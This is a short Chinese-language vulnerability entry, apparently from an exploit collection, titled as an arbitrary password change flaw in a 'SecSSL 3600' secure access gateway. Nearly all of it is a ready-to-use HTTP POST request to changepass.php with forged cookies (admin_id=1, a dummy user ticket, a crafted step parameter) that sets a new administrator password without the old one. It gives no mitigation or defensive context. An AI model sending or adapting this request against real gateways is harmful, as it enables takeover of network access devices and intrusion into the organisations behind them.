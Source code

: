 # 某神 SecSSL 3600安全接入网关系统 任意密码修改漏洞


## 某神 SecSSL 3600安全接入网关系统 任意密码修改漏洞
```
POST /changepass.php?type=2 

Cookie: admin_id=1; gw_user_ticket=ffffffffffffffffffffffffffffffff; last_step_param={"this_name":"test","subAuthId":"1"}
old_pass=&password=Test123!@&repassword=Test123!@

```

